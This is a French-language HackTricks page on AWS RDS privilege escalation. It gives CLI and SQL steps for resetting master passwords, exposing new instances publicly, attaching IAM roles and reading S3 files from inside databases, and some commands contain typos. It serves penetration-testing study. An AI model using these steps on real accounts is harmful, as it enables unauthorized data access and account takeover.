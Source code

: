 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Service de base de données relationnelle

Pour plus d'informations sur RDS, consultez :

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Avec cette permission, un attaquant peut **modifier le mot de passe de l'utilisateur principal**, et la connexion à l'intérieur de la base de données :
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Vous devrez être en mesure de **contacter la base de données** (elles sont généralement accessibles uniquement depuis des réseaux internes).
{% endhint %}

**Impact potentiel :** Trouver des informations sensibles à l'intérieur des bases de données.

### rds-db:connect

Selon les [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), un utilisateur avec cette permission pourrait se connecter à l'instance de DB.

### Abuser des permissions IAM du rôle RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Si en exécutant **`SELECT datname FROM pg_database;`** vous trouvez une base de données appelée **`rdsadmin`**, vous savez que vous êtes à l'intérieur d'une **base de données postgresql AWS**.
{% endhint %}

Tout d'abord, vous pouvez vérifier si cette base de données a été utilisée pour accéder à un autre service AWS. Vous pourriez vérifier cela en regardant les extensions installées :
```sql
SELECT * FROM pg_extension;
```
Si vous trouvez quelque chose comme **`aws_s3`**, vous pouvez supposer que cette base de données a **une sorte d'accès à S3** (il existe d'autres extensions telles que **`aws_ml`** et **`aws_lambda`**).

De plus, si vous avez les autorisations pour exécuter **`aws rds describe-db-clusters`**, vous pouvez voir là si le **cluster a un rôle IAM associé** dans le champ **`AssociatedRoles`**. S'il y en a un, vous pouvez supposer que la base de données a été **préparée pour accéder à d'autres services AWS**. En fonction du **nom du rôle** (ou si vous pouvez obtenir les **permissions** du rôle), vous pourriez **deviner** quel accès supplémentaire la base de données a.

Maintenant, pour **lire un fichier à l'intérieur d'un bucket**, vous devez connaître le chemin complet. Vous pouvez le lire avec :
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Si vous aviez **des identifiants AWS bruts**, vous pourriez également les utiliser pour accéder aux données S3 avec :
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **n'a pas besoin de changer de variable de groupe de paramètres** pour pouvoir accéder à S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
À l'intérieur d'un mysql, si vous exécutez la requête **`SELECT User, Host FROM mysql.user;`** et qu'il y a un utilisateur appelé **`rdsadmin`**, vous pouvez supposer que vous êtes dans une **base de données mysql AWS RDS**.
{% endhint %}

À l'intérieur du mysql, exécutez **`show variables;`** et si les variables telles que **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, ont des valeurs, vous pouvez supposer que la base de données est prête à accéder aux données S3.

De plus, si vous avez les permissions pour exécuter **`aws rds describe-db-clusters`**, vous pouvez vérifier si le cluster a un **rôle associé**, ce qui signifie généralement un accès aux services AWS.

Maintenant, pour **lire un fichier à l'intérieur d'un bucket**, vous devez connaître le chemin complet. Vous pouvez le lire avec :
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Un attaquant avec les permissions `rds:AddRoleToDBCluster` et `iam:PassRole` peut **ajouter un rôle spécifié à une instance RDS existante**. Cela pourrait permettre à l'attaquant d'**accéder à des données sensibles** ou de modifier les données au sein de l'instance.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Impact potentiel** : Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.\
Notez que certaines bases de données nécessitent des configurations supplémentaires telles que Mysql, qui doit spécifier le rôle ARN dans les groupes de paramètres également.

### `rds:CreateDBInstance`

Juste avec cette autorisation, un attaquant pourrait créer une **nouvelle instance à l'intérieur d'un cluster** qui existe déjà et a un **rôle IAM** attaché. Il ne pourra pas changer le mot de passe de l'utilisateur principal, mais il pourrait être en mesure d'exposer la nouvelle instance de base de données à Internet :
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Tester
{% endhint %}

Un attaquant avec les permissions `rds:CreateDBInstance` et `iam:PassRole` peut **créer une nouvelle instance RDS avec un rôle spécifié attaché**. L'attaquant peut alors potentiellement **accéder à des données sensibles** ou modifier les données au sein de l'instance.

{% hint style="warning" %}
Certaines exigences du rôle/profil d'instance à attacher (depuis [**ici**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)) :

* Le profil doit exister dans votre compte.
* Le profil doit avoir un rôle IAM que Amazon EC2 a la permission d'assumer.
* Le nom du profil d'instance et le nom du rôle IAM associé doivent commencer par le préfixe `AWSRDSCustom` .
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impact potentiel** : Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Un attaquant disposant des autorisations `rds:AddRoleToDBInstance` et `iam:PassRole` peut **ajouter un rôle spécifié à une instance RDS existante**. Cela pourrait permettre à l'attaquant d'**accéder à des données sensibles** ou de modifier les données au sein de l'instance.

{% hint style="warning" %}
L'instance DB doit être en dehors d'un cluster pour cela
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impact potentiel** : Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
